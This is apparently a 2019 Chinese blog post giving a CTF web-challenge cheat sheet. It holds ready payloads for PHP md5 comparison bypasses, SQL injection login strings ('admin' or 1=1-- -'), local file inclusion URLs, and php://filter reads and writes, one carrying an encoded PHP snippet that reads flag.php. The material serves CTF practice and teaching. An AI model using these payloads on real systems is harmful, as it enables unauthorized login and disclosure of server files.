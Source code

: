 ```yaml
---
layout: post
title: "CTF WEB 常见思路"
date: 2019-3-13 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: CTF WEB题中常见思路 
---
```

## php备份文件：
1.index.php.bak
2.index.php~
3.index.php.swp
## md5 比较  
### 弱比较：
md5弱比较，为0e开头的会被识别为科学记数法，结果均为0
#### 代码：
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-c5c805c77aab67ee.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/766/format/webp)
#### Payload：
param1=QNKCDZO&param2=aabg7XSs
### 强比较  ：
md5强比较，此时如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等
#### 代码：
![Alt text](https://upload-images.jianshu.io/upload_images/7373593-e54981f5bd5f3c95.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/782/format/webp)
#### Payload：
param1[]=111&param2[]=222
## SQL注入万能密码
用户名：admin' or 1=1-- -
密码任意
用户名：admin '#
密码任意
## 文件包含
### 常见格式：  
http://119.23.73.3:5001/web8/index.php?file=flag.php
### php伪协议读源码
http://119.23.73.3:5001/web8/index.php?
file=php://filter/read=convert.base64-encode/resource=flag.php
### 利用php伪协议来写入文件
file=php://filter/write=convert.base64-decode/resource=./tmp.php&c=aPD9waHAgZWNobyhmaWxlX2dldF9jb250ZW50cygiZmxhZy5waHAiKSk7Pz4=
